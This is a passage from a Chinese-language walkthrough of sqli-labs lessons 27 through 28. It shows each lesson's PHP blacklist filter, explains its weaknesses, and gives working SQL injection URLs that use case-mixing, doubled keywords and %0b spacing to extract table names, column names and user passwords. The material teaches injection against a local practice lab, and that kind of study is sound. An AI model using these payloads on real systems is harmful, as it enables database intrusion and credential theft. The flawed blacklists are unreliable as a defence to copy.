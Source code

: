 ``` php
$id= preg_replace('/UNION/s',"", $id);	    //Strip out UNION
$id= preg_replace('/SELECT/s',"", $id);	    //Strip out SELECT
$id= preg_replace('/Union/s',"", $id);	    //Strip out Union
$id= preg_replace('/Select/s',"", $id);	    //Strip out Select
return $id;
}
```
可以看出，主要是过滤了注释符还有select,union,空格.(并且select还过滤了两次)。但是又有没有用/i。所以可以用大小写混合绕过或者三写(双写)绕过。
这关测试了一下,发现windows下%0b不会被过滤了。
```
http://127.0.0.1/sqli-labs-master/Less-27/?id=0'||(extractvalue(1,concat(1,database())))and'1'='1
http://127.0.0.1/sqli-labs-master/Less-27/?id=0'%0band%0bextractvalue(1,concat(1,(SeLect%0btable_name%0bfrom%0binformation_schema.tables%0bwhere%0btable_schema=database()%0blimit%0b0,1)))%0band%0b'1'='1 
http://127.0.0.1/sqli-labs-master/Less-27/?id=0'%0band%0bextractvalue(1,concat(1,(SeLect%0bcolumn_name%0bfrom%0binformation_schema.columns%0bwhere%0btable_schema=database()%0band%0btable_name='users'%0blimit%0b0,1)))%0band%0b'1'='1 
http://127.0.0.1/sqli-labs-master/Less-27/?id=0'%0band%0bextractvalue(1,concat(1,(SeLect%0bconcat(username,0x3a,password)%0bfrom%0bsecurity.users%0blimit%0b0,1)))%0band%0b'1'='1 
```

# Less-27a
这关和上一关的区别就是注释了报错语句，因此不能使用报错注入了，同时闭合也由单引号变成双引号了，在这里我们使用联合查询注入。  
```
http://127.0.0.1/sqli-labs-master/Less-27a/?id=0"%0bUnIon%0bSeLect%0b1,database(),3%0bor%0b"
http://127.0.0.1/sqli-labs-master/Less-27a/?id=0"%0bUnIon%0bSeLect%0b1,(SeLect%0bgroup_concat(table_name)%0bfrom%0binformation_schema.tables%0bwhere%0btable_schema=database()),3%0bor%0b"
http://127.0.0.1/sqli-labs-master/Less-27a/?id=0"%0bUnIon%0bSeLect%0b1,(SeLect%0bgroup_concat(column_name)%0bfrom%0binformation_schema.columns%0bwhere%0btable_schema=database()%0band%0btable_name='users'),3%0bor%0b"
http://127.0.0.1/sqli-labs-master/Less-27a/?id=0"%0bUnIon%0bSeLect%0b1,(SeLect%0bgroup_concat(username,0x3a,password,0x3c2f62723e)%0bfrom%0bsecurity.users),3%0bor%0b"
```

# Less-28
首先看一下过滤语句。   
``` php
function blacklist($id)
{
$id= preg_replace('/[\/\*]/',"", $id);				//strip out /*
$id= preg_replace('/[--]/',"", $id);				//Strip out --.
$id= preg_replace('/[#]/',"", $id);					//Strip out #.
$id= preg_replace('/[ +]/',"", $id);	    		//Strip out spaces.
//$id= preg_replace('/select/m',"", $id);	   		 	//Strip out spaces.
$id= preg_replace('/[ +]/',"", $id);	    		//Strip out spaces.
$id= preg_replace('/union\s+select/i',"", $id);	    //Strip out UNION & SELECT.
return $id;
}
```
还是过滤了/* -- # 空格 union select，这里的正则表达式\s匹配任意空字符，/i表示不区分大小写，但是需要注意的是这里过滤的是union+空白字符+select同时匹配大小写的这一个整体，所以用union union select select绕过。同时需要注意的是，闭合也改成了')。  
```
http://127.0.0.1/sqli-labs-master/Less-28/?id=0')%0bunion%0bunion%0bselect%0bselect%0b1,database(),3%0bor%0b('
http://127.0.0.1/sqli-labs-master/Less-28/?id=0')%0bunion%0bunion%0bselect%0bselect%0b1,(select%0bgroup_concat(table_name)%0bfrom%0binformation_schema.tables%0bwhere%0btable_schema=database()),3%0bor%0b('
http://127.0.0.1/sqli-labs-master/Less-28/?id=0')%0bunion%0bunion%0bselect%0bselect%0b1,(SeLect%0bgroup_concat(column_name)%0bfrom%0binformation_schema.columns%0bwhere%0btable_schema=database()%0band%0btable_name='users'),3%0bor%0b('
http://127.0.0.1/sqli-labs-master/Less-28/?id=0')%0bunion%0bunion%0bselect%0bselect%0b1,(SeLect%0bgroup_concat(username,0x3a,password,0x3c2f62723e)%0bfrom%0bsecurity.users),3%0bor%0b('
```